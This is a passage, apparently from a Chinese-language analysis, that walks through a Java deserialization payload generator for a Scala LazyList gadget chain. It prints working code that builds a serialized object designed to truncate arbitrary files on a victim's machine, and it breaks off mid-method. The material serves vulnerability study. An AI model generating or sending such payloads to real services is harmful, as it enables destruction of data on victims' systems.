 ```java
        boolean append = Boolean.parseBoolean(args[1]);
      // 创建Payload生成器对象
        PayloadGenerator payloadGenerator = new LazyList(DefaultProviders.FILE_OUTPUT);
        // 生成Payload
        byte[] payload = payloadGenerator.generatePayload(fileToTruncate, append);

        System.out.write(payload);
    }
}
```
在创建`payloadGenerator`对象时使用的`DefaultProviders.FILE_OUTPUT`是一个`Function`对象  
```java
public static final Function<Object[], Function0<Object>> FILE_OUTPUT = DefaultProviders::fileOutput;
/**
     * When invoked, instantiates new FileOutputStream(String fileName, boolean append) with controlled parameters is
     * called. If append is false, right after creating, specified file is truncated (written with 0). Which means you can
     * truncate any file on victim's machine which victim has write access to.
     * @param args args[0]: String, file name to truncate; args[1]: boolean, whether to append or overwrite.
     * @return Function0 instance which can overwrite any file with zero when Object apply() is invoked
     */
    public static Function0<Object> fileOutput(Object[] args) {
      // 文件路径
        String fileToTruncate = (String) args[0];
      // 是否追加
        boolean append = (Boolean) args[1];
        // 通过反射的方式获得scala.sys.process.ProcessBuilderImpl$FileOutput$$anonfun$$lessinit$greater$3 类的实例
        // 之所以通过反射的方式获取因为ProcessBuilderImpl被private修饰
        return ReflectionUtil.newInstance("scala.sys.process.ProcessBuilderImpl$FileOutput$$anonfun$$lessinit$greater$3",
                new Class[]{ ProcessBuilder$.class, File.class, boolean.class},
                new Object[] {null, new File(fileToTruncate), append});
    }
```
`generatePayload`方法
```java
private static final String LAZY_LIST_CLASSNAME = "scala.collection.immutable.LazyList";

@Override
public byte[] generatePayload(Object... args) {
   // 构造无参匿名函数
   Function0<Object> function0 = function0Provider.apply(args);
   // 创建LazyList
   Object lazyList = createLazyList(function0);
   // 模拟writeReplace方法
   Object serializationProxy = ReflectionUtil.newInstance("scala.collection.immutable.LazyList$SerializationProxy",
            lazyList);
   // 序列化
   return  SerdeUtil.serialize(serializationProxy);
}
```
`function0Provider` 即前面传入的`FILE_OUTPUT`，通过调用其注入器方法`apply`显式的构造一个`Function0`类型的对象，然后将该对象传入到`createLazyList`创建一个`LazyList`对象，最终使用`SerializationProxy`进行包装（参考`LazyList writerePlace`方法）最终将该对象序列化。  
在调用`createLazyList` 创建`LazyList`对象时首先通过反射的方式创建了`LazyList对`象，然后设置了其三个属性。  
```java
public Object createLazyList(Function0<Object> function0) {
         // 创建LazyList对象
```